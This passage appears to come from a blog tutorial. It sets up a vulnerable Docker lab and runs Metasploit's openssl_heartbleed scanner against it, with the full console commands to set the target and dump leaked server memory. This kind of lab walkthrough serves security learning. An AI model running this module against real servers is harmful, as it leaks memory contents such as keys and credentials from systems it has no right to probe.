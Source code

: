 <br>
Copy the Container ID number as you will need to grep for the IP address to load into Metasploit:<br>
{% highlight bash %}
$ docker inspect b5ee3b134fe7 | grep IPAddress
# replace  'b5ee3b134fe7' with your container ID
{% endhighlight %}

<br>
This will usually return "IPAddress": "172.17.0.2". Write this down for the next step

<br>
Launch Metasploit:
{% highlight bash %}
$ msfconsole
# this may take a bit.... patience.
{% endhighlight %}

<br>
Inside the msf console:
{% highlight bash %}
$ use auxiliary/scanner/ssl/openssl_heartbleed
$ set VERBOSE true
$ set RHOSTS 172.17.0.2
$ show options
# make sure everything looks correct
$ exploit
{% endhighlight %}

<p>
After hitting exploit you should be presented with 65,551 bytes of <strong>random</strong> leaked data from the server's memory. Everytime 
you run the scanner it will dump a new chunk of random leaked data. 

<br>
<img src="{{ site.url }} /assets/hbleed.png" class="img-responsive">
</p>

Now if you want to dig a little deeper you can close the current Docker container and launch a new container with an interactive shell.
Start by exiting msfconsole (simply type 'exit') and then stop the currently running Docker container:
{% highlight bash %}
$ docker ps
# note the container ID
$ docker stop b5ee3b134fe7
# replace 'b5ee3b134fe7' with your container ID
$ docker run -i -t  andrewmichaelsmith/docker-heartbleed:latest  /bin/bash
{% endhighlight %}
